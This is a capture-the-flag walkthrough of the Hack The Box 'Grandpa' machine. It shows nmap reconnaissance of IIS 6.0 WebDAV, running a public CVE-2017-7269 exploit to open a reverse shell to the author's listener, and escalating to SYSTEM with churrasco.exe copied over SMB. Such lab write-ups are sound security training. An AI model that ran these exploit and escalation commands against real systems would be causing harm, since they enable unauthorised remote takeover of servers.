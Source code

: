 # Box: Grandpa
# Level: Easy
# OS: Windows
<hr>
Lets get started

# Recon

## Portscanning

command:```nmap -A -v -T4 -p- 10.129.95.233```

```
Nmap scan report for 10.129.95.233
Host is up (0.22s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Server Date: Mon, 13 Feb 2023 16:46:19 GMT
|   WebDAV type: Unknown
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT POST MOVE MKCOL PROPPATCH
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
| http-ntlm-info: 
|   Target_Name: GRANPA
|   NetBIOS_Domain_Name: GRANPA
|   NetBIOS_Computer_Name: GRANPA
|   DNS_Domain_Name: granpa
|   DNS_Computer_Name: granpa
|_  Product_Version: 5.2.3790
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (92%), Microsoft Windows Server 2003 SP2 (91%), Microsoft Windows 2003 SP2 (91%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (90%), Microsoft Windows XP (87%), Microsoft Windows 2000 SP4 (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows XP SP2 or Windows Server 2003 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   244.91 ms 10.10.14.43
2   245.07 ms 10.129.95.233

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb 13 17:46:24 2023 -- 1 IP address (1 host up) scanned in 250.56 seconds
```
From our scan we can see we have just 1 open port, this means our enumeration today will be focused on port 80.



# Enumeration

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/eb7731fd-6a41-48cb-986b-b26f248f919e)

Well, there was nothing interesting in the page source actually.

Going back to the nmap scan, I found this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/6ccc2038-57f4-4ae5-ad11-4d48d571a03b)

Alright, so I think there's an exploit for that guy I highlighted

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9dd310ad-45ad-4604-9992-4f5561b5a543)

I was right hehehe. Well since we found our attack vector, lets exploit😎



# Exploitation

During the search for exploits I found [this](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

You can just clone it, so you'll be able to use  it

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ git clone https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269.git
Cloning into 'iis6-exploit-2017-CVE-2017-7269'...
remote: Enumerating objects: 6, done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 6
Receiving objects: 100% (6/6), done.
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa]
└─$ cd iis6-exploit-2017-CVE-2017-7269 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ ls -la         
total 32
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .
drwxr-xr-x 3 bl4ck4non bl4ck4non  4096 Sep 20 17:15  ..
drwxr-xr-x 8 bl4ck4non bl4ck4non  4096 Sep 20 17:15  .git
-rw-r--r-- 1 bl4ck4non bl4ck4non 12313 Sep 20 17:15 'iis6 reverse shell'
-rw-r--r-- 1 bl4ck4non bl4ck4non    66 Sep 20 17:15  README.md
```
Lets try to run the exploit

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/HTB/Grandpa/iis6-exploit-2017-CVE-2017-7269]
└─$ python2 iis6\ reverse\ shell             
usage:iis6webdav.py targetip targetport reverseip reverseport
```
So, we have to specify the targetip and targetport, also our tun0 ip address and the port we plan on listening on

First, lets setup our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c8d39bf3-5ab5-4ca3-ab3a-6e11d401c3af)

Now, lets run the exploit script

command:```python2 iis6\ reverse\ shell 10.129.74.174 80 10.10.14.122 1234```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/fa7a90cc-f39f-48ac-9f2d-29d7ea98a203)

Checking our netcat listener

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0cb72701-5ce3-4176-a704-f6bcdfab17a6)

We got a shell as ```nt authority\network service```, this means we  have to escalate our privileges



# Privilege Escalation

Running the command ```whoami /priv```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/73f7870f-1161-4e00-9a75-319a23287d8e)

As we can see ```SeImpersonatePrivilege``` is enabaled, so this may be vulnerable to a potato exploit.

We can try [churrasco](https://github.com/Re4son/Churrasco/blob/master/churrasco.exe) here

We'll  be transferring that to the target machine, now ```certutil``` and ```curl``` doesn't work on the target machine. This means we'll be sending the file over using smb

Run this command in the directory where you downloaded the file

command:```smbserver.py share .```


Now, on the target machine run this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/7932bd9a-1053-4464-b53e-13756a6c5110)

We have successfully transferred the file. To run the executable

command:```c.exe -d "cmd.exe"```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/27576008-7737-4681-a3da-8a57e4e73d44)

We have successfully escalated our privileges.

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4df58a11-c739-4d5a-8068-6527acf5d844)

We have successfully pwned this box😎





That will be all for today
<br> <br>
[Back To Home](../../index.md)
















